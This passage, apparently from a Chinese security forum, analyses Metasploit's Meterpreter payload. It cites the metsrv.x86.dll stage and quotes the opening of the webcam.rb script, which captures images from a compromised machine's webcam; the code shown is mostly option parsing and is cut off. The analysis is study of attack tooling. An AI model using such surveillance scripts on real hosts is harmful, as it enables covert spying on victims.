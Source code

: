 这里就是展开对meterpreter的分析：

直接拿到msf钟stage中实现的metsrv.x86.dll文件：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-78fb1e58e5ec196408baeb498012d20ffe7d4b80.png)

逆向这个dll，分析dllmain函数代码逻辑。

但是似乎不需要这么做，因为msf开源，我们直接去看msf对该payload功能的实现代码：

项目路径：

`https://github.com/rapid7/metasploit-framework/blob/d8255157c9cea45807a216a51895808f4ee8db10/scripts/meterpreter`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-9311e7a7b49589576025ca0944b5b7e68789a458.png)

下面我们可以看到其相关功能模块的实现：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/06/attach-a4462558b1ff16a6b0143f6c8a565b23b6193e81.png)

例如如下是摄像头运行拍照的payload：

webcam.rb

```php
##  
\# WARNING: Metasploit no longer maintains or accepts meterpreter scripts.  
\# If you'd like to improve this script, please try to port it as a post  
\# module instead. Thank you.  
##  
​  
​  
\#  Author: scriptjunkie  
#  
\# Simplify running webcam, whether grabbing a single frame or running  
\# a continous loop.  
​  
@client \= client  
opts \= Rex::Parser::Arguments.new(  
  "-h" \=> \[ false, "Help menu" \],  
  "-f" \=> \[ false, "Just grab single frame"\],  
  "-l" \=> \[ false, "Keep capturing in a loop (default)" \],  
  "-d" \=> \[ true, "Loop delay interval (in ms, default 1000)" \],  
  "-i" \=> \[ true, "The index of the webcam to use (Default: 1)" \],  
  "-q" \=> \[ true, "The JPEG image quality (Default: 50)" \],  
  "-g" \=> \[ false, "Send to GUI instead of writing to file" \],  
  "-s" \=> \[ true, "Stop recording" \],  
  "-p" \=> \[ true, "The path to the folder images will be saved in (Default: current working directory)" \],  
  "-a" \=> \[ false, "Store copies of all the images capture instead of overwriting the same file (Default: overwrite single file)" \]  
)  
iterator \= 0  
folderpath \= "."  
single \= false  
quality \= 50  
index \= 1  
interval \= 1000  
gui \= false  
saveAll \= false  
opts.parse(args) { |opt, idx, val|  
  case opt  
  when "-h"  
    print\_line "webcam -- view webcam over session"  
    print\_line(opts.usage)  
    raise Rex::Script::Completed  
```